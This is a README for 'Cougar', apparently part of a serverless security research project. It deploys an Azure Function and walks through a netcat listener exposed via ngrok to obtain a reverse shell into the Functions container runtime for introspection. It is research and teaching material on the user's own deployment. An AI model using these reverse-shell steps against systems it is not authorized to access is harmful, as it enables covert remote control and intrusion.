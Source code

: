 # Puma Prey Cougar

Cougar is a C# function that can be deployed to the Azure to establish a TCP reverse shell for the purposes of introspecting the Azure Functions container runtime.

## Installing Prerequisites

* [.NET 6 SDK](https://dotnet.microsoft.com/download)
* [Azure CLI](https://github.com/Azure/azure-cli)
* [Terraform](https://learn.hashicorp.com/terraform/getting-started/install.html)

## Deploying The Function

```bash
az login
export TF_VAR_unique_identifier=$(uuidgen | cut -b 25-34 | awk '{print tolower($0)}')
export TF_VAR_resource_group=serverless-prey-cougar-${TF_VAR_unique_identifier}
cd ./cougar/src/terraform/
terraform init
terraform apply --auto-approve
```

## Function Testing

Retrieve the Function Id, Host, and API key via the CLI.

```bash
export COUGAR_FUNCTION_ID=$(terraform output --json | jq -r '.cougar_function_id.value')
export COUGAR_FUNCTION_HOST=$(terraform output --json | jq -r '.cougar_function_host.value')
export COUGAR_API_KEY=$(az rest --method post --uri "$COUGAR_FUNCTION_ID/host/default/listKeys?api-version=2018-11-01" | jq -r .functionKeys.default)
export COUGAR_FUNCTION_URL="https://$COUGAR_FUNCTION_HOST/api/Cougar"
curl "$COUGAR_FUNCTION_URL?code=$COUGAR_API_KEY"
```

The result should show an error message indicating required C2 parameters are missing:

```json
{"message":"Must provide the host and port for the target TCP server as query parameters."}
```

If you have [Netcat](http://netcat.sourceforge.net/) and [ngrok](https://ngrok.com/) installed, you can use this script:

```bash
../../../script/prey.sh cougar --url $COUGAR_FUNCTION_URL --api-key $COUGAR_API_KEY
```

See [here](../script/USAGE.md) for more details on how to use this script.

Alternatively, you can do this manually by setting up a Netcat listener like so:

```bash
nc -l 4444
```

Then, to make your listener accessible from the public internet, consider using a service like ngrok:

```bash
ngrok tcp 4444
```

Finally, invoke your function, supplying your connection details and API key:

```bash
curl "$COUGAR_FUNCTION_URL?code=$COUGAR_API_KEY&host=NGROK_PORT_IP&port=NGROK_PORT_NUMBER"
```

Your listener will now act as a reverse shell for the duration of the function invocation.

## Teardown

```bash
terraform destroy
```

## Learning More

Read [documentation](./docs/CONSUMPTION.md) on what you can accomplish once you connect to the runtime via Cougar.
